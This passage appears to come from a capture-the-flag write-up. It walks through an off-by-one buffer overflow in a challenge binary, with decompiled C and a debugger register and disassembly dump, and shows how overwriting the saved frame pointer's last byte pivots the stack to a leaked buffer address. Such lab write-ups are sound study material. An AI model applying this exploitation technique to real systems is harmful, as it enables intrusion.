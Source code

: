 ```c
         "\n[*] The buffer is [%d] bytes long and \'read(0, buffer, %d)\' reads up to %dbytes.\n[*] Overflow the buffer and SFP with the payload we want to execute later.\n[*]Overwrite the \'$rsp\' last byte with leaked buffer address\'s last byte.\n\n> "
         ,0x40,0x41,0x41);
  read(0,&local_48,0x41);
  return;
}
```

`local_48` is 0x40 bytes and `read(0, local_48, 0x41)` reads one byte more than the buffer can store.

As the challenge prompts us, we are going to abuse this off-by-one bug to overwrite `$rsp` to our desired value, which is tha leaked stack address. Let's open a debugger to see how it works.

### Debugging 🐞

```c
*RAX  0x41
 RBX  0x0
*RCX  0x7ffff7af2151 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x41
 RDI  0x0
 RSI  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
 R8   0xec
 R9   0x0
 R10  0x0
 R11  0x246
 R12  0x4006d0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe150 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe060 —▸ 0x7fffffffe042 ◂— 0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x400a46 (vulnerable_function+167) ◂— leave  
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a30 <vulnerable_function+145>    lea    rax, [rbp - 0x40]
   0x400a34 <vulnerable_function+149>    mov    edx, 0x41
   0x400a39 <vulnerable_function+154>    mov    rsi, rax
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
 ► 0x400a46 <vulnerable_function+167>    leave  
   0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
   0x400a49 <vulnerable_function+170>    ret    
 
   0x400a4a <setup>                      push   rbp
   0x400a4b <setup+1>                    mov    rbp, rsp
```
